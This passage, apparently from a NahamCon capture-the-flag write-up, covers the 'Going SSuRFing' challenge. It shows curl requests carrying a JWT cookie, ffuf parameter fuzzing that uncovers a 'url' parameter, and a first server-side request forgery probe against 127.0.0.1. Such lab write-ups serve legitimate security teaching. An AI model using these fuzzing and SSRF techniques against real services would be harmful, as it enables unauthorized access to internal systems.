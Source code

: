 The flag is accepted as Not For Your Eyes challenge.

### 5. Going SSuRFing

Sending a request for the /app/api/webhook URL path.

```console
$ curl -s http://challenge.nahamcon.com:30781/app/api/webhook -b "token-for-prod=$JWT"
{"error":"Missing required query string"}
```

A query string is required but we don't know the parameter name so let's fuzzing.

```console
$ ffuf -ic -u http://challenge.nahamcon.com:30781/app/api/webhook?FUZZ=1 -b "token-for-prod=$JWT" -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc all -fr "Missing required query string"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://challenge.nahamcon.com:30781/app/api/webhook?FUZZ=1
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Header           : Cookie: token-for-prod=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozN30.KEGN0oBp_Xvhc_K_0aJW3Uhv2H3B4VrjT3rMsJwWGjA
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Regexp: Missing required query string
________________________________________________

url                     [Status: 200, Size: 57, Words: 9, Lines: 1, Duration: 216ms]
:: Progress: [4727/4727] :: Job [1/1] :: 140 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
```

Got the `url` query string.
As the name of this challenge name SSuRFing, the webhook has an SSRF vulnerability.
We'll specify <http://127.0.0.1> in the url query string to send a request to <http://127.0.0.1> from the server.

```console
$ curl -s http://challenge.nahamcon.com:30781/app/api/webhook?url=http://127.0.0.1 -b "token-for-prod=$JWT"
{"contents":"Invalid Host"} 
```
